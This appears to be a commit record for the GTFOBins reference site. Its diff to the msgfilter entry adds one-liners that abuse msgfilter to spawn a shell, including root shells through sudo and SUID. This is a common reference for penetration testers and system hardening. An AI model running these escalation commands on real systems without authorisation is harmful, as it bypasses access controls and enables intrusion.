

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/msgfilter.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 978 px from its top, so only the background shows below that.

Commit message:
Add msgfilter shell

```diff
--- a/_gtfobins/msgfilter.md
+++ b/_gtfobins/msgfilter.md
@@ -1,16 +1,20 @@
 ---
-description: The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data. `/bin/cat` can be replaced with any other *filter* program.
 functions:
+  shell:
+    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
+      code: |
+        echo x | msgfilter -P /bin/sh -c '/bin/sh 0<&2 1>&2; kill $PPID'
   file-read:
-    - code: |
+    - description: The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data. `/bin/cat` can be replaced with any other *filter* program.
+      code: |
         LFILE=file_to_read
         msgfilter -P -i "LFILE" /bin/cat
   sudo:
-    - code: |
-        LFILE=file_to_read
-        sudo msgfilter -P -i "LFILE" /bin/cat
+    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
+      code: |
+        echo x | sudo msgfilter -P /bin/sh -c '/bin/sh 0<&2 1>&2; kill $PPID'
   suid:
-    - code: |
-        LFILE=file_to_read
-        ./msgfilter -P -i "LFILE" /bin/cat
+    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
+      code: |
+        echo x | ./msgfilter -P /bin/sh -p -c '/bin/sh -p 0<&2 1>&2; kill $PPID'
 ---
```
